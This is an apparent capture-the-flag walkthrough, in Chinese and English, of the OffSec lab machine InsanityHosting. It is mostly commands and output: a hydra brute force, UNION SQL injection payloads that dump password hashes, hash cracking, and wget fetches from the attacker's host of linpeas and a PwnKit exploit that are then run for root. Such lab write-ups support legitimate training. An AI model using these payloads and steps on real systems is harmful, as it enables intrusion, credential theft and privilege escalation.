


###### tags: `Offsec` `PG Play` `Hard` `Linux`

# InsanityHosting
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.163.124 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.163.124:21
Open 192.168.163.124:22
Open 192.168.163.124:80

PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.212
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: ERROR
22/tcp open  ssh     syn-ack OpenSSH 7.4 (protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/7.2.33)
|_http-favicon: Unknown favicon MD5: F563215CE087F2F0E494D75B81E07321
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.2.33
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-title: Insanity - UK and European Servers
Service Info: OS: Unix
```

ffuf掃
```
┌──(kali㉿kali)-[~/pgplay]
└─$ ffuf -u http://192.168.163.124/FUZZ -w /home/kali/SecLists/Discovery/Web-Content/common.txt

css                     [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 65ms]
data                    [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 65ms]
fonts                   [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 65ms]
img                     [Status: 301, Size: 235, Words: 14, Lines: 8, Duration: 64ms]
index.php               [Status: 200, Size: 31, Words: 4, Lines: 1, Duration: 69ms]
index.html              [Status: 200, Size: 22263, Words: 8919, Lines: 480, Duration: 69ms]
js                      [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 64ms]
licence                 [Status: 200, Size: 57, Words: 10, Lines: 2, Duration: 63ms]
monitoring              [Status: 301, Size: 242, Words: 14, Lines: 8, Duration: 63ms]
news                    [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 69ms]
phpmyadmin              [Status: 301, Size: 242, Words: 14, Lines: 8, Duration: 64ms]
phpinfo.php             [Status: 200, Size: 85342, Words: 4351, Lines: 1024, Duration: 78ms]
webmail                 [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 64ms]
:: Progress: [4727/4727] :: Job [1/1] :: 600 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
```

查看`http://192.168.163.124/news/`裡面有提到有user為`Otis`，利用`hydra`破破看服務`http://192.168.163.124/monitoring/login.php`
```
┌──(kali㉿kali)-[~/pgplay]
└─$ hydra -l otis -P /home/kali/rockyou.txt 192.168.163.124 http-post-form "/monitoring/login.php:username=otis&password=^PASS^:Login failed. Invalid"

[80][http-post-form] host: 192.168.163.124   login: otis   password: 12345
[80][http-post-form] host: 192.168.163.124   login: otis   password: 123456789
[80][http-post-form] host: 192.168.163.124   login: otis   password: password
[80][http-post-form] host: 192.168.163.124   login: otis   password: 1234567
[80][http-post-form] host: 192.168.163.124   login: otis   password: princess
[80][http-post-form] host: 192.168.163.124   login: otis   password: 123456
[80][http-post-form] host: 192.168.163.124   login: otis   password: iloveyou
[80][http-post-form] host: 192.168.163.124   login: otis   password: jessica
[80][http-post-form] host: 192.168.163.124   login: otis   password: monkey
[80][http-post-form] host: 192.168.163.124   login: otis   password: rockyou
[80][http-post-form] host: 192.168.163.124   login: otis   password: 12345678
[80][http-post-form] host: 192.168.163.124   login: otis   password: daniel
[80][http-post-form] host: 192.168.163.124   login: otis   password: abc123
[80][http-post-form] host: 192.168.163.124   login: otis   password: nicole
[80][http-post-form] host: 192.168.163.124   login: otis   password: babygirl
[80][http-post-form] host: 192.168.163.124   login: otis   password: lovely
```

最後試到`otis`跟密碼為`123456`可成功登入`http://192.168.163.124/monitoring/login.php`跟`http://192.168.163.124/webmail/src/login.php`
登入`monitoring dashboard`之後，可以發現它可以`add new`，new一台test之後，會在webmail那邊收到
```
test is down. Please check the report below for more information.

ID, Host, Date Time, Status
41,"test","2024-05-22 08:27:01",0
43,"test","2024-05-22 08:28:01",0
```

可以試試`sql injection`!!，在test那欄改成
```sql
admin" UNION SELECT @@hostname,@@version,NULL,NULL;--+
```



到`webmail`



```sql


admin" UNION SELECT @@hostname,@@version,NULL,NULL;--+ is down. Please check the
report below for more information.

ID, Host, Date Time, Status
insanityhosting.vm,5.5.65-MariaDB,,


```

繼續透過[sql injection](https://book.hacktricks.xyz/pentesting-web/sql-injection#extract-database-names-table-names-and-column-names)取得`database`
```sql
# monitoring
admin" UNION SELECT NULL,NULL,NULL,schema_name FROM information_schema.SCHEMATA;--+


# webmail
admin" UNION SELECT NULL,NULL,NULL,schema_name FROM information_schema.SCHEMATA;--+
is down. Please check the report below for more information.

ID, Host, Date Time, Status
,,,information_schema
,,,monitoring
,,,mysql
,,,performance_schema


```

參考這個網站順序[SQL Injections # 2 Union based SQLI](https://notchxor.github.io/oscp-notes/2-web/sqli/)
[Step 4 - Start enumerating the database](https://sushant747.gitbooks.io/total-oscp-guide/content/sql-injections.html)
```
Get all tables

# monitoring
admin" UNION SELECT NULL,NULL,NULL,table_name from information_schema.tables;--+

# webmail
admin" UNION SELECT NULL,NULL,NULL,table_name from information_schema.tables;--+ is
down. Please check the report below for more information.

ID, Host, Date Time, Status
,,,CHARACTER_SETS
,,,CLIENT_STATISTICS
,,,COLLATIONS
,,,COLLATION_CHARACTER_SET_APPLICABILITY
,,,COLUMNS
,,,COLUMN_PRIVILEGES
,,,ENGINES
,,,EVENTS
,,,FILES
,,,GLOBAL_STATUS
,,,GLOBAL_VARIABLES
,,,INDEX_STATISTICS
,,,KEY_CACHES
,,,KEY_COLUMN_USAGE
,,,PARAMETERS
,,,PARTITIONS
,,,PLUGINS
,,,PROCESSLIST
,,,PROFILING
,,,REFERENTIAL_CONSTRAINTS
,,,ROUTINES
,,,SCHEMATA
,,,SCHEMA_PRIVILEGES
,,,SESSION_STATUS
,,,SESSION_VARIABLES
,,,STATISTICS
,,,TABLES
,,,TABLESPACES
,,,TABLE_CONSTRAINTS
,,,TABLE_PRIVILEGES
,,,TABLE_STATISTICS
,,,TRIGGERS
,,,USER_PRIVILEGES
,,,USER_STATISTICS
,,,VIEWS
,,,INNODB_CMPMEM_RESET
,,,INNODB_RSEG
,,,INNODB_UNDO_LOGS
,,,INNODB_CMPMEM
,,,INNODB_SYS_TABLESTATS
,,,INNODB_LOCK_WAITS
,,,INNODB_INDEX_STATS
,,,INNODB_CMP
,,,INNODB_CMP_RESET
,,,INNODB_CHANGED_PAGES
,,,INNODB_BUFFER_POOL_PAGES
,,,INNODB_TRX
,,,INNODB_BUFFER_POOL_PAGES_INDEX
,,,INNODB_LOCKS
,,,INNODB_BUFFER_POOL_PAGES_BLOB
,,,INNODB_SYS_TABLES
,,,INNODB_SYS_FIELDS
,,,INNODB_SYS_COLUMNS
,,,INNODB_SYS_STATS
,,,INNODB_SYS_FOREIGN
,,,INNODB_SYS_INDEXES
,,,XTRADB_ADMIN_COMMAND
,,,INNODB_TABLE_STATS
,,,INNODB_SYS_FOREIGN_COLS
,,,INNODB_BUFFER_PAGE_LRU
,,,INNODB_BUFFER_POOL_STATS
,,,INNODB_BUFFER_PAGE
,,,hosts
,,,log
,,,users
,,,columns_priv
,,,db
,,,event
,,,func
,,,general_log
,,,help_category
,,,help_keyword
,,,help_relation
,,,help_topic
,,,host
,,,ndb_binlog_index
,,,plugin
,,,proc
,,,procs_priv
,,,proxies_priv
,,,servers
,,,slow_log
,,,tables_priv
,,,time_zone
,,,time_zone_leap_second
,,,time_zone_name
,,,time_zone_transition
,,,time_zone_transition_type
,,,user
,,,cond_instances
,,,events_waits_current
,,,events_waits_history
,,,events_waits_history_long
,,,events_waits_summary_by_instance
,,,events_waits_summary_by_thread_by_event_name
,,,events_waits_summary_global_by_event_name
,,,file_instances
,,,file_summary_by_event_name
,,,file_summary_by_instance
,,,mutex_instances
,,,performance_timers
,,,rwlock_instances
,,,setup_consumers
,,,setup_instruments
,,,setup_timers
,,,threads

```

`Get all columns from a specific table`看`users`
```sql
# monitoring
admin" UNION SELECT NULL,NULL,NULL,column_name from information_schema.columns where
table_name = 'users';--+

# webmail
admin" UNION SELECT NULL,NULL,NULL,column_name from information_schema.columns where
table_name = 'users';--+ is down. Please check the report below for more
information.

ID, Host, Date Time, Status
,,,id
,,,username
,,,password
,,,email

```


`Get content from the users-table. From columns name and password. `
```sql
# monitoring
admin" UNION SELECT NULL,username,password,email from users;--+

# webmail
admin" UNION SELECT NULL,username,password,email from users;--+ is down. Please
check the report below for more information.

ID, Host, Date Time, Status
,admin,$2y$12$huPSQmbcMvgHDkWIMnk9t.1cLoBWue3dtHf9E5cKUNcfKTOOp8cma,admin@insanityhosting.vm
,nicholas,$2y$12$4R6JiYMbJ7NKnuQEoQW4ruIcuRJtDRukH.Tvx52RkUfx5eloIw7Qe,nicholas@insanityhosting.vm
,otis,$2y$12$./XCeHl0/TCPW5zN/E9w0ecUUKbDomwjQ0yZqGz5tgASgZg6SIHFW,otis@insanityhosting.vm


```

上面破不出來換看`user` table
```sql
# monitoring
admin" UNION SELECT NULL,NULL,NULL,column_name from information_schema.columns where
table_name = 'user';--+

# webmail
admin" UNION SELECT NULL,NULL,NULL,column_name from information_schema.columns where
table_name = 'user';--+ is down. Please check the report below for more information.

ID, Host, Date Time, Status
,,,Host
,,,User
,,,Password
,,,Select_priv
,,,Insert_priv
,,,Update_priv
,,,Delete_priv
,,,Create_priv
,,,Drop_priv
,,,Reload_priv
,,,Shutdown_priv
,,,Process_priv
,,,File_priv
,,,Grant_priv
,,,References_priv
,,,Index_priv
,,,Alter_priv
,,,Show_db_priv
,,,Super_priv
,,,Create_tmp_table_priv
,,,Lock_tables_priv
,,,Execute_priv
,,,Repl_slave_priv
,,,Repl_client_priv
,,,Create_view_priv
,,,Show_view_priv
,,,Create_routine_priv
,,,Alter_routine_priv
,,,Create_user_priv
,,,Event_priv
,,,Trigger_priv
,,,Create_tablespace_priv
,,,ssl_type
,,,ssl_cipher
,,,x509_issuer
,,,x509_subject
,,,max_questions
,,,max_updates
,,,max_connections
,,,max_user_connections
,,,plugin
,,,authentication_string
```

選`mysql.user`欄位看
```sql
# monitoring
admin" UNION SELECT NULL,User,Password,authentication_string from mysql.user;--+

# webmail
admin" UNION SELECT NULL,User,Password,authentication_string from mysql.user;--+ is
down. Please check the report below for more information.

ID, Host, Date Time, Status
,root,*CDA244FF510B063DA17DFF84FF39BA0849F7920F,
,,,
,elliot,,*5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9
```

用[Crackstation](https://crackstation.net/)
```
5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9

|                   Hash                 |  Type   |  Result |
|----------------------------------------|---------|---------|
|5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9|MySQL4.1+|elliot123|
```

ssh登入，在`/home/elliot`得到local.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ ssh elliot@192.168.170.124 
elliot@192.168.170.124's password: elliot123

[elliot@insanityhosting ~]$ cat local.txt
0e0bf2ae54c1fe5ea40cff01788b8094
```

`linpeas`
```
[elliot@insanityhosting tmp]$ wget 192.168.45.190/linpeas.sh
[elliot@insanityhosting tmp]$ chmod +x linpeas.sh
[elliot@insanityhosting tmp]$ ./linpeas.sh

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: less probable
   Tags: ubuntu=10|11|12|13|14|15|16|17|18|19|20|21,debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

```

使用[CVE-2021-4034](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py)得root，進/root得proof.txt
```
[elliot@insanityhosting tmp]$ wget 192.168.45.190/CVE-2021-4034.py
[elliot@insanityhosting tmp]$ python CVE-2021-4034.py

[root@insanityhosting root]# cat proof.txt                          
95c3dc32b1c997e1ec6665ba3387aba9 
```